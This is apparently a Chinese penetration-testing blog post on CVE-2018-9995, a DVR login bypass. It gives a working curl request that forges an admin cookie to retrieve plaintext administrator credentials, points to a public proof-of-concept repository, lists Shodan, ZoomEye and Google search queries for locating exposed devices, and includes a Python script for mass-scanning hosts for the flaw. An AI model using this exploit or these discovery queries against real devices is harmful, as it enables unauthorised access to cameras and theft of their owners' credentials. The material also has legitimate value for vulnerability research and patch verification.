






# DVR 登录绕过漏洞(CVE-2018-9995) - 渗透测试中心 - 博客园

> 原文：[`www.cnblogs.com/backlion/p/9015164.html`](https://www.cnblogs.com/backlion/p/9015164.html)

# ###漏洞描述

此漏洞允许攻击者通过修改“Cookie: uid=admin” 之后访问特定 DVR 的控制面板，返回此设备的明文管理员凭证。

# ###漏洞利用

## 1.利用代码

```
curl "http://:/device.rsp?opt=user&cmd=list" -H "Cookie: uid=admin"
```

## 2.poc 利用

```
https://github.com/ezelf/CVE-2018-9995_dvr_credentials
git clone https://github.com/ezelf/CVE-2018-9995_dvr_credentials.git

cd CVE-2018-9995_dvr_credentials

pip install -r requirements.txt
```

 

 

# ###关键词搜索

**1\. zoomeye:**

 keyword: “/login.rsp"

 

**2.shodan:**

keyword:html:"/login.rsp"

keyword:"server:GNU rsp/1.0"

 



**3.google:**

keyword:intitle:"DVR login"

 

# ###批量验证

DVR 系列摄像头批量检测 使用方法:python CVE-2018-9995_check.py host.txt
其中 host.txt 内容可以为 8.8.8.8:8080 或者[www.baidu.com](http://www.baidu.com/)，脚本运行后对使用了 DVR 系列摄像头的 host 会保存到 result.txt 文件里

```
#author:hzkey

import tableprint as tp

import sys

import requests

import re

class Colors:

    GREEN = '\033[32m'

    RED = '\033[0;31m'

    BLUE = '\033[*]'

    ORANGE = '\033[33m'

def check_host(host):

    try:

        print(Colors.ORANGE+"Checking : %s"%host)

        url = 'http://' + host+'/login.rsp'

        rr= requests.get(url,timeout=30,allow_redirects=False)

        if rr.status_code == 200 and re.findall("GNU rsp/1.0", rr.headers["Server"]):

            print(Colors.GREEN+"[*] CVE-2018-9995 Detection :Url is %s"%url)

            ff=open('result.txt','a+')

            ff.write('%s\n'%(url))

    except:

        pass

if __name__ == '__main__':

    if len(sys.argv) < 2:

        print(Colors.BLUE+"""Usage: Python3 CVE-2018-9995.py host.txt

host.txt:127.0.0.1:8080 or baidu.com

""")

    if len(sys.argv) >= 2:

        file = open(sys.argv[1])

        for i in file:

            i = i.strip()

            check_host(i)

        file.close()

```

 